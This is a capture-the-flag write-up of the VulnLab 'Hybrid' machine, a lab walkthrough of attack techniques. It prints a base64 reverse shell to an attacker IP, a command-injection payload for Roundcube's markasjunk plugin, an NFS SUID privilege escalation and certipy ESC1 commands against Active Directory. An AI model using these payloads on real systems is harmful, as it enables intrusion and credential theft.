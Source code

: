 ```yaml
---
title: Hybrid
date: 2024-06-01 09:45:47 +07:00
modified: 2024-06-01 09:45:47 +07:00
tags: [ Hybrid, VulnLab, chain, ADCS, certipy, NFS, roundcube, SUID, no-root-squash, Writeup]
# description: Hybrid is an &quot;easy&quot; difficulty machine, Where exploited a Roundcube vulnerability and leveraged NFS, SUID misconfiguration, and certificate services to escalate privileges and compromise the domain.
cover: https://photos.squarezero.dev/file/abir-images/hybrid/logo.png
---
```


![](https://photos.squarezero.dev/file/abir-images/htbasset/vulnbanner.png)
<!-- 



<img src="https://photos.squarezero.dev/file/abir-images/hybrid/logo.png" style="margin-left: 20px; zoom: 60%;" align=left />    	<font size="10">Hybrid</font>

​		13<sup>th</sup> May 2024

​		Machine Author(s): [XCT](https://app.hackthebox.com/users/13569)

​		

### Description: -->

Hybrid is an &quot;easy&quot; difficulty machine, Where exploited a Roundcube vulnerability and leveraged NFS, SUID misconfiguration, and certificate services to escalate privileges and compromise the domain.

### Difficulty:

`Easy`


# Enumeration

I start with 2 IP addresses and nmap shows us the open ports.

```bash
PORT      STATE    SERVICE      
22/tcp    open     ssh
25/tcp    open     smtp
80/tcp    open     http
110/tcp   open     pop3
111/tcp   open     rpcbind      
143/tcp   open     imap
587/tcp   open     submission   
993/tcp   open     imaps        
995/tcp   open     pop3s        
1102/tcp  filtered adobeserver-1
2049/tcp  open     nfs
3024/tcp  filtered nds_sso
```

```bash
PORT      STATE SERVICE
53/tcp    open  domain
135/tcp   open  msrpc 
139/tcp   open  netbios-ssn     
445/tcp   open  microsoft-ds    
464/tcp   open  kpasswd5        
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
```

### Mail01.hybrid.vl

The NFS server is running on the mail server.

![](https://photos.squarezero.dev/file/abir-images/hybrid/01.png)

Mount NFS drive to check out important files.

`mkdir target-NFS`

`sudo mount -t nfs 10.10.209.54:/ ./target-NFS -o nolock`

![](https://photos.squarezero.dev/file/abir-images/hybrid/1.png)

I found credentials inside the tar file.

![](https://photos.squarezero.dev/file/abir-images/hybrid/2.png)

Inside I find 2 credentials

```bash
admin@hybrid.vl:{plain}Duc<snip>   
peter.turner@hybrid.vl:{plain}Pet<snip>
```

Login to the mail server using Admin credentials

![](https://photos.squarezero.dev/file/abir-images/hybrid/3.png)

The version of Roundcube is 1.6.1 and after some research, I found out it's vulnerable to code execution via Markasjunk plugin.

[SSD Advisory -  Roundcube markasjunk RCE - SSD Secure Disclosure](https://ssd-disclosure.com/ssd-advisory-roundcube-markasjunk-rce/)

![](https://photos.squarezero.dev/file/abir-images/hybrid/4.png)



I need to bypass the filter to have code execution. One easy way to do it is to encode the reverse shell into base64 decode it and run it with bash. I can try this concept in our local machine first.

`echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjIuMTEwLzEyMzQgMD4mMSc= | base64 -d | bash`

![](https://photos.squarezero.dev/file/abir-images/hybrid/5.png)

![](https://photos.squarezero.dev/file/abir-images/hybrid/6.png)



Under settings, I can change the email into our payload.

`admin%26echo${IFS}YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC44LjIuMTEwLzEyMzQgMD4mMQoK|base64${IFS}-d|bash%26%40hybrid.vl`



![](https://photos.squarezero.dev/file/abir-images/hybrid/7.png)

Intercept the request and url-encode the payload.

Note: Char Limit of 128 Also if the base64 string has ‘+’ it needs to be url-encoded.

![](https://photos.squarezero.dev/file/abir-images/hybrid/8.png)

Send an email to Peter.

![](https://photos.squarezero.dev/file/abir-images/hybrid/9.png)

Mark it as junk.

![](https://photos.squarezero.dev/file/abir-images/hybrid/10.png)

And I got a call back to my machine.

![](https://photos.squarezero.dev/file/abir-images/hybrid/11.png)

### www-date to Peter

I looked for a bit and couldn't find anything interesting. But I have both read-write options on the NFS drive.

![](https://photos.squarezero.dev/file/abir-images/hybrid/12.png)

First, I need to check Peter's UID and then I can create a user in our local attacker machine with the same UID as Peter.

```bash
www-data@mail01:~/roundcube$ id peter.turner@hybrid.vl
id peter.turner@hybrid.vl
uid=902601108(peter.turner@hybrid.vl) gid=902600513(domain users@hybrid.vl) groups=902600513(domain users@hybrid.vl),902601104(hybridusers@hybrid.vl)
```

Now using this UID I created a user in my machine.

```bash
sudo adduser nfs_user     
sudo sed -i -e 's/1002/902601108/g' /etc/passwd
```

Next from www-data user, I transfer the bash file to the NFS drive and then move then using our new user I change the SUID of the bash and put it back to the NFS drive.

```bash
cp bash /tmp/        
share su nfs_user 
/target-NFS/opt/share$ cp /tmp/bash .
/target-NFS/opt/share$ chmod +xs bash
```

![](https://photos.squarezero.dev/file/abir-images/hybrid/13.png)

Now I can run commands as Peter.

![](https://photos.squarezero.dev/file/abir-images/hybrid/14.png)

`/opt/share/bash -p`

![](https://photos.squarezero.dev/file/abir-images/hybrid/15.png)

### Peter to Root

Inside Peter's home folder, I found a Keepass file and after transferring the file to my machine, I can log in using the password I found in the NFS drive previously.

![](https://photos.squarezero.dev/file/abir-images/hybrid/16.png)



With the new password, I can ssh into the machine as Peter And as Peter can run anything with sudo I can just use `sudo su` to log in as root.

![](https://photos.squarezero.dev/file/abir-images/hybrid/17.png)

### DC01.hybrid.vl

Peter's credentials are valid in the domain.

![](https://photos.squarezero.dev/file/abir-images/hybrid/18.png)

After running Bloodhound didn't find anything interesting.

`bloodhound-python -u 'peter.turner' -p 'b0cw<snip>' -ns 10.10.246.165 -d hybrid.vl -c all --auth-method auto --zip`

![](https://photos.squarezero.dev/file/abir-images/hybrid/19.png)

Next, I looked for certificate vulnerability using Certipy and it's vulnerable to ESC1

`certipy find -u 'peter.turner' -p 'b0cw<snip>' -dc-ip 10.10.134.197 -enabled -vulnerable -stdout`

![](https://photos.squarezero.dev/file/abir-images/hybrid/20.png)

As only domain joined computer can request I got the machine hash of the mail server.

https://github.com/sosdave/KeyTabExtract

**`/etc/krb5/krb5.`**

![](https://photos.squarezero.dev/file/abir-images/hybrid/21.png)

Now I can request pfx with the right length of RSA

```bash
certipy req -u 'mail01$'@hybrid.vl -hashes '0f916c52<snip>' -dc-ip 10.10.246.165 -ca hybrid-DC01-CA -template HybridComputers -upn ADMINISTRATOR@HYBRID.VL -key-size 4600
```

![](https://photos.squarezero.dev/file/abir-images/hybrid/22.png)

![](https://photos.squarezero.dev/file/abir-images/hybrid/23.png)

60701e8543c9f6db1a2af3217386d3dc

Using the PFX I can request for administrator hash and then log in to get the final flag. 

![](https://photos.squarezero.dev/file/abir-images/hybrid/025.png)

![](https://photos.squarezero.dev/file/abir-images/hybrid/25.png)

### Bonus.

I can also log in using the ticket.

`KRB5CCNAME=administrator.ccache  psexec.py -k -no-pass dc01.hybrid.vl`

![](https://photos.squarezero.dev/file/abir-images/hybrid/26.png)